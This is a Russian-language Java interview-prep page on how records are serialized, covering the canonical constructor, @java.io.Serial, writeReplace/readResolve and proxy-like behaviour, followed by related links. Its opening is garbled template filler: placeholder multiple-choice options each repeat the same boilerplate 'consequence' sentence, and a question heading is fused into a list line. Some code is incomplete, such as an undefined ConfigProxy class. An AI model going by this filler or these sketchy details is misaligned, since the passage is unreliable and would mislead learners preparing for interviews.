> - [ ] Альтернативное решение которое не подходит | Почему ошибка в этом подходе ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Другая альтернатива с критическим недостатком | Это смежное, но отличное понятие ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Третий вариант который не работает в production | Противоположное направление## Q40. Как сериализуются `Java Record` — детали механизма ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.

Этот вопрос углубляет Q19. Здесь — детали внутреннего механизма и отличия от обычных классов.

**Специальный механизм сериализации record:**

При десериализации обычного класса JVM использует рефлексию для прямой записи в поля (обходя конструктор). Для `record` это невозможно (поля `final`), поэтому JVM использует специальный путь:

```
Обычный класс:   readObject → writeField(field1) → writeField(field2) → готово
Record:          readObject → вызвать канонический конструктор(arg1, arg2) → готово
```

**Это ключевое отличие:** валидация в каноническом конструкторе выполняется **при каждой десериализации**:

```java
public record PositiveRange(int min, int max) implements Serializable {
    public PositiveRange {
        if (min < 0 || max < 0) throw new IllegalArgumentException("negative!");
        if (min > max) throw new IllegalArgumentException("min > max");
    }
}

// При десериализации вредоносного потока с min=-1, max=5
// → будет выброшен IllegalArgumentException
// Для обычного класса — инвариант можно было бы нарушить!
```

**Аннотация `@java.io.Serial`** (Java 14+) — документирует и верифицирует методы сериализации:

```java
public record Config(String host, int port) implements Serializable {
    @java.io.Serial
    private static final long serialVersionUID = 1L;

    // @java.io.Serial на writeReplace — IDE/компилятор проверит корректность
    @java.io.Serial
    private Object writeReplace() {
        return new ConfigProxy(this);
    }
}
```

**Что недоступно для record при сериализации:**
- `writeObject`/`readObject` — игнорируются (но компилятор предупреждает)
- `readObjectNoData` — не применяется

**Что работает:**
- `writeReplace` / `readResolve` — полностью поддерживаются
- `serialVersionUID` — рекомендуется объявлять явно
- `ObjectInputFilter` — работает как обычно

**Record как Serialization Proxy «из коробки»:**

```java
// Это де-факто аналог Serialization Proxy Pattern
// Proxy и есть record-компоненты, канонический конструктор — это readResolve
public record Money(BigDecimal amount, Currency currency) implements Serializable {
    // Всё уже безопасно: canonical constructor = защищённая точка десериализации
}
```

---

## See also

- [Java IO / NIO](java-io-nio-interview.md) — `ObjectInputStream`/`ObjectOutputStream`, потоки байт и объекты
- [Java Core](java-core-interview.md) — контракт `equals`/`hashCode` и его роль при десериализации объектов
- [Java Exceptions](java-exceptions-interview.md) — `InvalidClassException`, `StreamCorruptedException` — типичные ошибки сериализации
- [ООП в Java](java-oop-interview.md) — `Serialization Proxy Pattern`, `readResolve()`, инварианты классов
- [Java Types](java-types-interview.md) — как `records` и `sealed classes` (Java 16-17) влияют на сериализацию
- [Java 17-21](java-17-21-interview.md) — сериализация `records` и `sealed classes` — новые подходы
- [Паттерны проектирования](../../design-patterns/design-patterns-interview.md) — `Serialization Proxy`, `Builder` для безопасной десериализации
- [Spring Framework](../../frameworks/spring/spring-framework-interview.md) — `@JsonIgnore`, `@JsonProperty`, Jackson-интеграция в Spring


- [Java 17-21](java-17-21-interview.md)
- [Java 8](java-8-interview.md)
- [Java Annotations](java-annotations-interview.md)
- [Java Collections](java-collections-interview.md)
- [Java Concurrency](java-concurrency-interview.md)
- [Java Conditional Statements](java-conditional-statements-interview.md)
